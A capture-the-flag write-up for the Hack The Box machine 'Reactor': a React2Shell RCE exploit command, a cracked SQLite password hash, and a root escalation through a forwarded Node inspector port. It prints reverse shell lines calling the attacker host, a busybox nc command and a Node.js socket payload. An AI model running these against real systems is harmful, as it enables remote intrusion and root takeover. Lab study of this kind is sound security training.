






# Reactor

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">React2Shell</span>
<span class="wu-tag">SQLite</span>
<span class="wu-tag">Node Inspector</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The first shell ran as node, while the debugger belonged to root. Between those two contexts, the application database supplied an SSH account that made the local inspector reachable through a tunnel.

## Attack path

1. Exploit the React application on port 3000 and read its SQLite database.
2. Crack Engineer's password and move to SSH.
3. Forward port 9229 and execute the recorded JavaScript inside the root-owned process.

[HTB machine](https://app.hackthebox.com/machines/900) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/900) (checked November 17, 2026).

## Setup 

```bash
export IP="10.129.141.51"
```

### /etc/hosts
```bash
echo "$IP    reactor.htb" | sudo tee -a /etc/hosts
```

---
## Enumeration
### Port Discovery / Scanning

**Quick Port Scan**
```bash
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

**Full Nmap Scan**
```bash
nmap -sC -sV -p- $IP -oN nmap_full.txt
```
### Nmap Results
```text
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

> Full nmap scan revealed the 2 ports above. Note that rustscan only identified 22.

---
## Service Enumeration

### 3000

`http://10.129.141.51:3000/` took us to a custom application that let us see various information for Reactorwatch. 

Inspecting the GET request sent to the landing page, we can see RSC in the header response, or React Server Components. An RSC header identifies a possible attack surface, not a confirmed vulnerability. Here the recorded exploit and callback confirmed execution through CVE-2025-55182 (React2Shell). The exploit works by sending a malicious RSC/Flight request that the server parses as if a normal React tree structure, and this can be used for RCE.

Utilizing this GitHub repo, https://github.com/ynsmroztas/NextRce, we can craft a payload to obtain a foothold onto the machine by getting a reverse shell:

```bash
python3 NextRCSWaff.py -u http://10.129.141.51:3000/ -c "busybox nc 10.10.14.145 9001 -e sh"
```

<figure class="wu-evidence" markdown>

<figcaption>The React exploit callback runs as node.</figcaption>
</figure>

---
## Foothold (Initial Access)

After gaining a foothold as `node`, we can see in the `/home` directory that `engineer` is our likely next target. 

Running `linpeas` on the host reveals two bits of important information. First, we can see an SQLite3 database present at `/opt/reactor-app/reactor.db`:

<figure class="wu-evidence" markdown>

<figcaption>The application environment identifies the SQLite database path.</figcaption>
</figure>

Second, we can see `root` is running a service on port `9229`. Although this isn't useful now, it's good to keep in mind for later enumeration once we reach our first user flag.

<figure class="wu-evidence" markdown>

<figcaption>The process listing shows the root-owned Node inspector.</figcaption>
</figure>

For now, we'll focus on the database:
```bash
node@reactor:/tmp$ sqlite3 /opt/reactor-app/reactor.db
sqlite> .tables
.tables
sensor_logs  users      
sqlite> select * from users;
select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
```

Now, we can take the hash for `engineer` and crack it to reveal the password `reactor1`

<figure class="wu-evidence" markdown>

<figcaption>The Engineer hash resolves to reactor1.</figcaption>
</figure>

Now, we can SSH onto the target using our new user: `engineer:reactor1`

---
## Privilege Escalation

Note we cannot run `sudo` as `engineer` on this host.

Running `linpeas` as `engineer` does not reveal any new information so instead, let's pivot back to the other interesting finding in our original `linpeas` output where we saw the unidentified service running on port 9229 with `root` privileges. 

Googling this port reveals it's a TCP port used by Node.js inspector for debugging allowing tools like **Chrome DevTools** and **Visual Studio Code** to attach to a running Node process. 

We can forward the port to our attack machine by using the following command:

```bash
ssh -L 9229:localhost:9229 engineer@10.129.141.51
```

Now, in our browser from our attacking machine, we can go to a chromium browser and visit `brave://inspect/#devices`  

<figure class="wu-evidence" markdown>

<figcaption>The SSH tunnel exposes the remote Node process to DevTools.</figcaption>
</figure>

We're able to click `inspect` under Remote debugging which opens a browser console. The saved console first shows an `nc -e` attempt, then the Node socket payload below. The callback and `whoami` output confirm root because this inspected process ran as root

<figure class="wu-evidence" markdown>

<figcaption>The saved DevTools console contains the callback payload.</figcaption>
</figure>

The following is transcribed from the saved DevTools screenshot:

```javascript
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("sh", []);
  var client = new net.Socket();
  client.connect(9005, "10.10.14.145", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/;
})();
```

### Recorded privilege verification

The identity output below is transcribed from the original screenshot; flag values and the flag-bearing image are omitted.

```text
$ nc -lvnp 9005
Listening on 0.0.0.0 9005
Connection received on 10.129.141.51 55828
whoami
root
```

## Lessons learned

A debugger is an execution interface. Binding it to localhost reduced external exposure, but an SSH-capable local user could forward the port and execute code inside the root-owned process.
